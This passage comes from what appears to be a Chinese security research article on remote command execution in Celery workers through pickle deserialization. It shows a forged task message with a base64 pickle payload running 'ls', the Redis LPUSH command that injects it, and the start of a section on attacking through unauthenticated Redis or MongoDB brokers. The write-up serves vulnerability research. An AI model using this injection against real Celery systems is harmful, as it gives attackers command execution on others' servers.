 使用刚才分析过的消息数据，将消息主体的值替换为上面生成的 Payload 得到构造的假消息：

```
`{`
    "body": "Y2NvbW1hbmRzCmdldHN0YXR1c291dHB1dApwMAooUydscycKcDEKdHAyClJwMwou",
    "headers": `{``}`,
    "content-encoding": "binary",
    "content-type": "application/x-python-serialize",
    "properties": `{`
        "body_encoding": "base64",
        "reply_to": "c8b55284-c490-3927-85c5-c68a7fed0525",
        "correlation_id": "1d8fa7ae-12f6-4229-9eb9-99d5bbb9dabe",
        "delivery_info": `{`
            "routing_key": "celery",
            "exchange": "celery",
            "priority": 0
        `}`,
        "delivery_mode": 2,
        "delivery_tag": "027bd89a-389e-41d1-857a-ba895e6eccda"
    `}`
`}`
```

将假消息通过 Redis 命令行直接添加到 celery 队列任务中：

```
127.0.0.1:6379&amp;gt; LPUSH celery '`{`"body":"Y2NvbW1hbmRzCmdldHN0YXR1c291dHB1dApwMAooUydscycKcDEKdHAyClJwMwou","headers":`{``}`,"content-encoding":"binary","content-type":"application/x-python-serialize","properties":`{`"body_encoding":"base64","reply_to":"c8b55284-c490-3927-85c5-c68a7fed0525","correlation_id":"1d8fa7ae-12f6-4229-9eb9-99d5bbb9dabe","delivery_info":`{`"routing_key":"celery","exchange":"celery","priority":0`}`,"delivery_mode":2,"delivery_tag":"027bd89a-389e-41d1-857a-ba895e6eccda"`}``}`'
```

查看一下 celery 队列中的消息情况：

[![](https://p0.ssl.qhimg.com/t019d06c4b8f2a0e6c5.png)](http://www.mottoin.com/89644.html/10-79)然后起一个 Celery worker 端加载之前的 celery_simple.py 中的 APP，worker 会从队列中取消息进行处理，当处理到插入的假消息时，会由于无法解析任务数据而报错：

[![](https://p3.ssl.qhimg.com/t0156f5e369678c6d75.png)](http://www.mottoin.com/89644.html/11-78)

worker 端经过 pickle.loads(base64.b64decode(body)) 处理对构造的 Payload 进行的反序列化，由于 Payload 在反序列化时会执行命令并返回执行结构，所以这里 worker 端直接将命令执行的结果当作了任务的具体数据，同时也证明了在 Celery 分布式框架默认配置下（使用了 pickle 序列化方式），进行恶意消息注入会导致 worker 端远程命令执行。

**<br>**

**利用脆弱的 Broker 代理进行分布式节点攻击**

前面已经证明了 Celery 构建的应用中，如果攻击者能够控制 Broker 往消息队列中添加任意消息数据，那么即可构造恶意的消息主体数据，使得 worker 端在对其进行反序列化的时候触发漏洞导致任意命令执行。整个流程为：

[![](https://p4.ssl.qhimg.com/t01d1096ecdecd2bf7c.png)](http://www.mottoin.com/89644.html/12-63)

**1. 检测 Celery 应用中 Broker 特征**

那么对于这样一个分布式应用，攻击者是否能够轻易的控制 Broker 呢？在 Celery 支持的消息队列中间件中含有 Reids、MongoDB 这种存在未授权访问问题的服务，因此当一个基于 Celery 框架实现的分布式应用使用了 Redis 或者 MongoDB 作为 Broker 时，极有可能由于中间件未授权访问的问题而被攻击者利用，进行恶意的消息注入。
